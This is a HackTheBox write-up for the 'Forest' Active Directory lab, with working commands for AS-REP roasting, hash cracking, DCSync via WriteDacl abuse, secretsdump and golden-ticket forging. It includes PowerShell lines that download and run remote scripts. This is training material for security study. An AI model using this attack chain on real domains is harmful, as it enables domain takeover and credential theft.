






## Reconnaissance

### nmap 


### SMB Enumeration  (Port 445)

> I cant access it

```
smbclient -N -L //10.129.95.210
```



> crackmapexec to enumerate user 
> Find the following users

1. sebastien
2. lucinda
3. svc-alfresco
4. andy
5. mark
6. santi

```
crackmapexec smb 10.129.95.210 --users 
```


### RPC Enumeration (Port 139)

> Using drpcclient with anonymous user 

```
rpcclient -U "" -N 10.129.95.210
enumdomusers
```

> I also found th following users

1. Sebastien
2. lucinda
3. svc-alfresco
4. andy
5. mark
6. santi


### Kerberoast (Port 88)

> Enumerate kerberoast port with nmap 

nmap -p 88 --script=krb5-enum-users --script-args=krb5-enum-users.realm='htb.local' -oN kerberoast


> Enumerate by kerbrute (TBD)

- [(GITHUB)kerbrute](https://github.com/ropnop/kerbrute)

```
kerbrute userenum --dc 10.129.95.210 --domain htb.local /usr/share/seclist/Usernames/Names/names.txt
```


## ldap 

> We also can use ldapsearch to enum the possible user

1. Using the following command, I can retrieve information from ldap

```
ldapsearch -H ldap://htb.local -x -b "DC=htb,DC=local"
```

> option x (-x ): simple authentication
> option b (-b): its same as base, means ase dn for search


2. Then I can add search condition behind the command 

```
ldapsearch -H ldap://htb.local -x -b "DC=htb,DC=local" '(objectClass=Person)'
```

> Then it will search ldap service to find out the object or information which objectClass is Person


3. If I keep add some condition behind the command, it will just like filter strings

```
ldapsearch -H ldap://htb.local -x -b "DC=htb,DC=local" '(objectClass=Person)' sANAccountName sANAccountType
```


4. Then using grep command to filter the username 

```
ldapsearch -H ldap://htb.local -x -b "DC=htb,DC=local" '(objectClass=Person)' sANAccountName | grep sAMAccountName
```


5. Save this username into file 

```
ldapsearch -H ldap://htb.local -x -b "DC=htb,DC=local" '(objectClass=Person)' sANAccountName | grep sANAccountName | awk '{print $2}' >> userlist.ldap
```


## Exploit 
### Kerberoast attack 

1. AS-REP roasting

> So far, I have some potential users list
> I need to find a way that can exploit kerberoast service without password or  extract password
> So far, I only have user name, I think I need to find a way to extract the kerberoast hash 
> Then AS-REP roasting might be a good way 

> AS-REP roasting :
> Condition: The account set 'Do not require kerberoast pre-authentication'
> The main purpose for kerberoast preauthentication is preventing the password disclose and bruteforce 

> Step to do AS-REP roasting 

1. With above enumeration, I create a user list file 


2. Using tools GetNPUsers in impacket with the potential user list
```
impacket-GetNPUsers htb.local/ -dc-ip 10.129.95.210 -usersfile users.txt -format hashcat -outputfile hashes.asrepoast
```


3. Find a valid hash for svc-alfresco


4. Crack it by hashat, I need to identified the hash type

```
hashcat --example-hashes | grep -i krb
```


```
hashcat --example-hashes | less
```




5.  Start to crack the hash 

```
hashcat -m 18200 hashes.asreproast
```


> Find credential 

```
svc-alfresco / s3rvice
```

> Using this credential to enumerate smb 
> Nothing found


> Try to use crackmapexec enumerate it again, 
> I still can't find anything, but I can make sure the credential is valid

```
crackmapexec smb 10.129.95.210 -u svc-alfresco -p s3rvice
```



> Then I tried to using evil-winrm to login 
> Actually, if I scan all port, it's easy to find the winrm service is open

```
evil-winrm -i 10.129.95.210 -u svc-alfresco -p 's3rvice'
```


> Get user flag 


## Privilege Escalation 

> Next, I need to find out a way to get administrator permission
> Upload winpeas and enumerate the whole system.
> But nothing found 


> By the way, I use the following command to upload 

```
iwr -uri http://10.10.17.145/winPEASx64.exe -OutFile winpeas.exe
```

> Check whoami privilege 
> It doesn't enable any usefule privilege 


> Then, because this is an AD challenge
> I also enumerate the system by bloodhound 
> Actually, the result has a little different to the walkthrough from internet or ippsec's writeup

1. Upload sharphound to target 

```
iwr -uri http://10.10.17.145/SharpHound.exe -OutFile sharp.exe
```


2. Execute sharphound to gathering information 

```
.\sharp.exe -c all
```


3. Transfer the result file (zip file ) to local 

> In evil-winrm, I can execute download directly

```
download 20240524232652_BloodHound.zip
```


4. Upload it to BloodHound, start to analysis 

> Check all user 


> Check all computer 

```
Match c:Computer Return c
```


> Since I have got the control for svc-alfresco
> Hence I can mark it as Owned


> Check "Shortest Path from Owned Principals"


> In here, I know the user "svc-alfresco" is member of "Service Account" group
> Then "Service Account" group is member of "Privileged IT account" group
> And "Privileged IT account" group is member of "Account Operators" group


> With the whole picture of this path
> the user in "Account Operators" group has GenericAll to "EXCH01"


> So far, I don't get any idea how to do
> So keep checking "Shortest Path to Domain Admin From Owned Principals"


> I only know the user svc-alfresco can login to the Computer FOREST
> And I have done that
> In FOREST, there is an administrator user.
> Checking the guideline about how to abuse

1. Password Theft
2. Token Impersonate

> I think it doesn't provide any useful information


> Next, I check "Shortest Paths to Domain Admins"
> We can find the following path 
> From above, I know "Account Operators" Group also has GenericAll attributes to "Exchange Windows Permissions" Group
> And "Exchange Windows Permissions" Group has "WriteDacel" attribute to HTB.LOCAL


> So I know "Account Operators" Group also has GenericAll attributes to "Exchange Windows Permissions" Group
> What does it means ? let check this article 

- [Active Directory security groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)


> From above information, 
> I know the member of account operators group can't add user to the following groups 

1. Administrator 
2. Server Operators
3. Account Operators
4. Backup Operators
5. Print Operators 

> With explaining from ChatGPT, 
> account operators can helps to grant limited account creation privileges to a uses which means users can be assign part of management permission but not full of management permission
> Users in this group can do :

1. Create account 
2. Modify account 
3. Login to Domain Controller 


> Then I think the current goal is get the administrator, and we aim to HTB.LOCAL.
> And from previous analysis, the users of "Exchange Windows Permissions" Group has "WriteDacl" attribute to target.
> Since I also a user of "Account Operators" which has GenericAll attribute to "Exchange Windows Permissions" Group
> So the whole relation path as follow: (The following picture are copy from [internet](https://hackmd.io/@Mecanico/Hy5pLfL1j))


> So I can create an account who has all permission to Exchange Windows Permission groups.
> Then I must can create a new user then add into "Exchange Windows Permissions" Group


> And  "Exchange Windows Permissions" Group has "WriteDacl" attribute to HTB.LOCAL
> Checking the guideline for "WriteDacl"


### Step to Exploit 

> With the guideline, I do the following step 

1. Download and Upload powerview.ps1
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master)

```
iex (New-Object Net.WebClient).downloadString('http://10.10.17.145/PowerView.ps1')
```


2. Create a new user 

```
net user hacker hackhack /add /domain
```


3. Add this user to "Exchange Windows Permissions" group

```
net group "Exchange Windows Permissions" /add hacker
```


4. Set up credential in environment variable

```
$pass = convertto-securestring 'kalikali' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kali', $pass)
```


5. At first, I follow the tutorial from BlodHound to use the following command, but it always stuck.

```
Add-DomainObjectAcl -Credential $creds -TargetIdentity htb.local -Rights DCSync
```


6. I check the following article to modify the payload, and it seems success to execute 

- [Domain Enumeration + Exploitation](https://burmat.gitbook.io/security/hacking/domain-exploitation)


```
Add-DomainObjectAcl -Credential $creds -TargetIdentity htb.local -PrincipalIdentity hacker -Rights DCSync
```


7. So, back to my kali host, using secresdump to get the NTLM hash 

```
secretsdump.py htb.local/hacker:hackhack@10.129.95.210
```


8. Record them and using crackmapexec to verify the credential 

```
crackmapexec smb 10.129.95.210 -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```


9. Using psexec to login with administrator 


> Get root flag 


## Post Exploitation - Golden ticket 

- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)


> Step 

1. Create TGT and set up environment 

> This step I execute it twice, first is create a ticket name nonexist, the other is create an administrator 

- nonexist ticket
```
python ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local nonexist
```


```
export KRB5CCNAME=nonexist.ccache
```


- administrator 
```
impacket-ticketer -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain HTB.LOCAL administrator
```


```
export KRB5CCNAME=administrator.ccache
```


2. Execute with psexec, it failed with the different time between target and my host

```
impacket-psexec htb.local/nonexist@forest -k -no-pass
```


3. Troubleshooting for time error 

> Error message 
```
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```


> Checking the time in target and  in my host

- Time in target server 


- Time in my host


> To confirm which is correct to correspond to target's time
> I tried to use for loop in bash to check 
> BTW, at first, I use ip address not host, if I solve the time problem, this part will provide a different error message 

```
for i in $(seq 00 24); do date -s $i:00:00; impacket-psexec htb.local/administrator@10.129.95.210 -k -no-pass; done
```


> If time is correct, but the host is ip address not a domain name, 
> it will response the following error 

```
[-] Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```


> I tried to use the following command to adjust time 
> but it not works, the time won't change.


> I think it is caused by ntp. 
> Since I also tried to use 'timedatectl' to modify the time and timezone , it still error

- timezone 
```
timedatectl
timedatectl set-timezone America/Los-Angeles
```


```
timedatectl set-time "2024-05-25 05:14:50"
```


> ntp will Synchronize the time to system time
> So, I need to disable ntp first.
> Then success to change the time 

```
timedatectl set-ntp false
timedatectl set-time "2024-05-25 05:14:50"
```


4. After fixing the time issue and changing the host to domain name (htb.local), the psexec with TGT can login 




## Others 

### Kerberaosting attack 

> Result

攻擊者成功入侵了 Active Directory 環境後，他們可以利用 Kerberoasting 攻擊技術，從目標系統中收集加密過的服務帳號的票證（Ticket-Granting Service Ticket, TGS Ticket），並將其進行離線破解，從而獲取到這些服務帳號的明文密碼。

> Condition

1. **存在目標帳號**：目標帳號必須是有權限訪問某些服務的帳號，並且該帳號的 SPN（Service Principal Name）必須已經設置。SPN 是用於識別 Kerberos 服務實體的唯一識別符。
	- 必須要有至少 domain user 的帳號密碼

2. **有權訪問域控制器**：攻擊者需要在 Active Directory 環境中擁有足夠的權限，以便能夠向域控制器發出有關 SPN 的請求，從而收集到相關的票證。
	- 確認SPN 設置的方式：
		- setspn
		```
		setspn -l <username>
		```
		- ADUC (GUI required)
		```
		right click username -> attribute editor -> servicePrincipalName
		If this value is not empty, then SPN setting is ok
		```
		- Powershell command
		```
		Get-ADUser <username> -Properties servicePrincipalName | Select-Object -ExpandProperty servicePrincipalName
		```
		- LDAP query
		```
		servicePrincipalName
		```

3. **票證收集工具**：攻擊者需要使用相關的工具來向域控制器發送請求，收集到目標帳號的 TGS Ticket。常用的工具包括Mimikatz、PowerShell 腳本等。


> Tools

1. GetUserSPNs.py
```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

2. Rubeus
- Windows
```
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

3. Powershell

```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

### AS-REP Roasting attack 

AS-REP roasting攻擊的核心是利用未啟用Pre-Authentication的帳戶，從而能夠直接獲取AS-REP回應，然後對其進行離線破解。攻擊者不需要知道帳戶的密碼，只需要對目標帳戶發送一個AS-REP請求，然後收集回應，並進行離線破解。這種攻擊通常針對普通用戶帳戶，因為它們更容易被忽略，並且可能更容易具有未啟用Pre-Authentication的設置。

> Result 

AS-REP roasting 攻擊的目的是獲取目標帳戶的明文密碼或是 NTLM 雜湊值。通常，攻擊者對目標帳戶的密碼感興趣，以便進一步滲透目標系統或者獲取敏感信息。

> Condition 

1. Valid Domain User Name 
2. Domain Name

> Tools: 

1. GetNPUsers.py

```
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

2. Rubeus
- Windows

```
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

3. Kerbrute 

```
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

### SMB transfer file 

> Step 

1. Start SMB Server on Kali

```
impacket-smbserver kalitool $(pwd) -smb2support -user kali -password kalikali
```


2. Set up login information with powershell command

```
$pass = convertto-securestring 'kalikali' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('kali', $pass)
```



3. Set up the smb drive

```
New-PSDrive -Name kali -PSProvider FileSystem -Credential $creds -Root \\10.10.17.145\kalitool
```


4. Move to SMB drive

```
cd kali:
```


## Reference 

### Writeup

- [(ippsec)Forest](https://www.youtube.com/watch?v=H9FcE_FMZio)
### Windows Operation 

> Add user to a group

- [Add user to group from command line (CMD)](https://www.windows-commandline.com/add-user-to-group-from-command-line/)
- [PWK Notes: Post-Exploitation Windows File Transfers with SMB](https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html)
### MSRPC 

- [(HackTricks)135, 593 - Pentesting MSRPC](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)
- [(HackTricks)rpcclient enumeration](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration)
### Kerberoast attack

- [(HackTricks)kerberoast](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast)
- [(HackTricks)88tcp/udp - Pentesting Kerberos](https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88)
- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- [Kerberoast Attack Techniques](https://www.cobalt.io/blog/kerberoast-attack-techniques)
- [Kerberos Brute Force Attack](https://www.hackingarticles.in/kerberos-brute-force-attack/)
- [Active Directory Workshop — Kerbrute Password Spray & Kerbrute Roasting (Pt.7)](https://medium.com/@e.escalante.jr/active-directory-workshop-kerbrute-password-spray-kerbrute-roasting-pt-7-677d3eba7dd0)
### AS-REP Roasting

- [内网渗透（五） | AS-REP Roasting攻击](https://cloud.tencent.com/developer/article/1937051)
- [(HackTricks)ASREP Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast)
- [AS-REP Roasting ](https://www.cnblogs.com/-meditation-/articles/16583089.html)
- [AS-REP Roasting](https://pentestlab.blog/2024/02/20/as-rep-roasting/)
- [AS-REP Roasting & Kerberoasting](https://www.linkedin.com/pulse/as-rep-roasting-kerberoasting-nathan-miller-k0v6c/)
- [ASREP Roasting & Pre-Authentication in AD Environments](https://tcm-sec.com/pre-authentication-in-ad-environments/)
- [渗透技巧——通过Kerberos pre-auth进行用户枚举和口令爆破](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E9%80%9A%E8%BF%87Kerberos-pre-auth%E8%BF%9B%E8%A1%8C%E7%94%A8%E6%88%B7%E6%9E%9A%E4%B8%BE%E5%92%8C%E5%8F%A3%E4%BB%A4%E7%88%86%E7%A0%B4)
### Active Directory - WriteDacl

- [Domain Enumeration + Exploitation](https://burmat.gitbook.io/security/hacking/domain-exploitation)
- [Add-DomainObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainObjectAcl/)

### LDAP

- [(HackTricks)389, 636, 3268, 3269 - Pentesting LDAP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)

### Golden Ticket

- [域渗透|票据伪造](https://www.se7ensec.cn/2021/11/01/%E5%9F%9F%E6%B8%97%E9%80%8F-%E7%A5%A8%E6%8D%AE%E4%BC%AA%E9%80%A0/)
### Privilege Escalation / Exploit Tool 

- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [(GITHUB)PEASS-ng](https://github.com/peass-ng/PEASS-ng/releases)
- [(GITHUB)kerbrute](https://github.com/ropnop/kerbrute)
- [(GITHUB)CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
- [Hashcat-Cheatsheet](https://github.com/frizb/Hashcat-Cheatsheet/blob/master/README.md)
### Kerberoasting attack 

- [域渗透——Kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting)
- [深入理解 Kerberoasting 攻击](https://xz.aliyun.com/t/13697?time__1311=mqmxnQ0QW8G%3DD%2FD0Dx2DUESCNZco%3DYD&alichlgref=https%3A%2F%2Fwww.google.com%2F)

## Others

- [Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)


> Kerbrute Install on Kali linux ARM 64
> Download from github

- [(GITHUB)kerbrute arm Version](https://github.com/ropnop/kerbrute/issues/50)

> Modify the following in Makefile

```
ARCHS= arm64 amd64 386
```


> Note, before make install, the go version should change to go 1.13 
> Since this project are build on go 1.13 (you can use gvm to manager multiple go version)

- [(GITHUB)go.mod](https://github.com/ropnop/kerbrute/blob/master/go.mod)


###### tags: `HackTheBox`